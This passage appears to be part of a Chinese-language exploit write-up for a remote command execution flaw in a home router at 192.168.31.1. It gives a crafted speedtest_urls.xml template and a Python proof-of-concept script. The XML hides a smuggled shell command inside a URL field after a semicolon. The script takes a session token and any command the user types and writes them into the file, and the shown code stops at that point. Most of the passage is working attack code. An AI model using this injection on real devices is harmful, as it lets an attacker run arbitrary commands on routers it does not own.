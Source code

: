 所以，我们只需要构造恶意的`speedtest_urls.xml`文件，构造配置文件，上传配置文件，然后调用网络测试相关的接口，即可以实现命令注入。

实现命令执行 poc

template.xml

```
<?xml version="1.0"?>
<root>
    <class type="1">
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
    </class>
    <class type="2">
        <item url="http://192.168.31.1 -q -O /dev/null;{command}>/tmp/1.txt; exit; wget http://192.168.31.1  "/>
    </class>
    <class type="3">
        <item uploadurl="http://www.taobao.com/"/>
        <item uploadurl="http://www.so.com/"/>
        <item uploadurl="http://www.qq.com/"/>
        <item uploadurl="http://www.sohu.com/"/>
        <item uploadurl="http://www.tudou.com/"/>
        <item uploadurl="http://www.360doc.com/"/>
        <item uploadurl="http://www.kankan.com/"/>
        <item uploadurl="http://www.speedtest.cn/"/>
    </class>
</root>

```

remote_command_execution_vulnerability.py

```
import os
import tarfile
import requests


proxies = {}


stok = input("stok: ")


command = input("command: ")
speed_test_filename = "speedtest_urls.xml"
with open("template.xml","rt") as f:
    template = f.read()
data = template.format(command=command)

with open("speedtest_urls.xml",'wt') as f:
    f.write(data)

```